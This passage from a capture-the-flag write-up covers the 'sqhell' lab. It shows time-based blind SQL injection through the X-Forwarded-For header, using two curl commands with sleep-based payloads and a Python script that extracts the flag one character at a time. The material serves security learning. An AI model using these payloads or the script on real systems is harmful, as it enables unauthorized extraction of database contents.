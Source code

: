 ```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -H "X-Forwarded-For:1' AND (SELECT sleep(5) FROM flag where (ASCII(SUBSTR(flag,1,1))) = '84'); --+" http://sqhell.thm 
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Home</title>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
```

Here I've taken the same curl command we used on flag three, where we are testing using ASCII codes. I'm assuming the first character of the flag is T like all the others. 84 is the ASCII value of T, and I'm sending that via the X-Forwarded-For header. The sleep(5) will visibly pause the output for 5 seconds, so we know there was a match if we get a delay.

This worked for the first letter of the flag, let's do the second one which will be a H:

```text
──(root💀kali)-[~/thm/sqhell]
└─# curl -H "X-Forwarded-For:1' AND (SELECT sleep(5) FROM flag where (ASCII(SUBSTR(flag,2,1))) = '72'); --+" http://sqhell.thm
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Home</title>
```

We test 72 which is the ASCII value of H and again get a five second delay. This tells us we have a match, and like before we can continue on this path to manually work out the flag. Of course that would be incredibly time consuming, so let's write a script to automate it:

```text
import requests
import time
import string

server = "sqhell.thm" # IP OR SERVERNAME IF IN HOST FILE
flag = ""
loop = 1

while chr(125) not in flag:
    for a in range(48,126):
        start = time.time()
        r = requests.get(url="http://" + server, headers={'X-Forwarded-For':f"1' AND (SELECT sleep(2) FROM flag where (ASCII(SUBSTR(flag,{loop},1))) = '{a}'); --+"})
        end = time.time()
        if end-start >= 2:
            flag += chr(a)
            loop += 1
            print("Finding Flag: ", flag, end="\r")
            break
print("Flag found: ", flag)
```
